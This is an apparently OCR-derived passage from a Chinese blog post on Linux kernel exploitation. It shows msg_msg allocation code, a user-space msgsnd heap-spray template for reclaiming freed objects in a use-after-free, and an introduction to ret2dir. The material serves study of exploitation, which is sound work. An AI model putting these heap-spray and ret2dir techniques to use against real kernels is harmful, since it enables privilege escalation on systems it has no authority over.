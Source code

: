    ```c
   
       return msg;
   
   out_err:
       free_msg(msg);
       return ERR_PTR(err);
   }
   // /ipc/msgutil.c
   #define DATALEN_MSG ((size_t)PAGE_SIZE-sizeof(struct msg_msg))
   static struct msg_msg *alloc_msg(size_t len)
   {
       struct msg_msg *msg;
       struct msg_msgseg **pseg;
       size_t alen;
   
       alen = min(len, DATALEN_MSG);
       msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT); // 先分配了一个msg_msg结构大小
   ...
   ```

   前30字节不可控，发送的数据量越大，阻塞的可能性越大。

   用户态利用模版：

   ```c
   // 只能控制0x30字节以后的内容
   struct {
     long mtype;
     char mtext[BUFF_SIZE];
   }msg;
   memset(msg.mtext, 0x42, BUFF_SIZE-1); // 布置用户空间的内容
   msg.mtext[BUFF_SIZE] = 0;
   int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
   msg.mtype = 1; //必须 > 0
   // 假设此时已经产生释放对象，但指针未清空
   for(int i = 0; i < 120; i++)
     msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
   // 触发UAF即可
   
   ```

### ret2dir

全称return-to-direct-mapped memory，ret2dir利用kernel space与user space的隐形地址共享，使得要劫持的内核数据或者执行流进入这一别名空间，类似一种不用返回用户空间的ret2usr改进版。更重要的是我们的payload不需要显式的放入内核空间（比如使用堆喷等技术），当page frame被给予attack process的时候，我们的攻击payload就会 “emerges in kernel space”。

内存布局：

![内存布局](https://s3cunda.github.io/assets/post/内存布局.png)

利用堆喷射等技术，可以使得一块物理内存被重复映射给了内核和用户。
